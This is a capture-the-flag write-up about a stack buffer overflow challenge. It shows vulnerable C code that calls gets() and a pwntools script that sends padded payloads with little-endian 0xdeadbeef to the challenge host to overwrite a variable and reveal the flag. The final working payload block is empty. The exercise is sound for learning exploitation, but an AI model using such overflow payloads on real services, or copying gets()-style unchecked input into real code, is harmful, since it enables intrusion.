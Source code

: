 ```c
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```

## Solve:
- The first thing I could notice was that the SIZE of clutter was defined to be 0x100 or 256 bytes and GOAL = `0xdeadbeef`
- I had to somehow cause an overflow which wrote `0xdeadbeef` to the value of variable `code`. I first tried putting 256 random characters and then putting `deadbeef` in little endian form i.e `\xef\xbe\xad\xde` but that didn't seem to work
```
My room is so cluttered...
What do you see?
1234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456\xef\xbe\xad\xde
```
- I realized that putting `0xdeadbeef` like this won't work because its taking that input in string format, I searched the net and found out that I had to use `pwn` library in python.
- I watched the video over youtube which taught the use of `pwn` library in python through which this could be easily done.
- I created this simple script to send the payload into the challenge `nc` port.
```python
from pwn import *  
  
nc = remote("mars.picoctf.net", 31890) # connects to the challenge nc port  
line = b'1' * 256 + b'\xef\xbe\xad\xde\x00\x00\x00\x00' # deadbeef converted to LSB byte array  
  
nc.sendline(line)  
resp = nc.recvline()  
print(line)  
print(resp.decode().strip())  
nc.interactive()  
nc.close()
```
- But again I got the same output:
```
My room is so cluttered...
What do you see?
code == 0x0
code != 0xdeadbeef :(
```
- This time I couldn't figure out what's wrong with the code, everything seemed to be correct.
- I searched around a bit found a `stackoverflow` thread which talked about padding in `C`, so again I tried increasing the padding of the sent payload by 4 bytes.
```python
line = b'1' * 260 + b'\xef\xbe\xad\xde\x00\x00\x00\x00'
```
- Still it didn't seem to work, so I tried 8 bytes and magically it seemed to work.
```python
```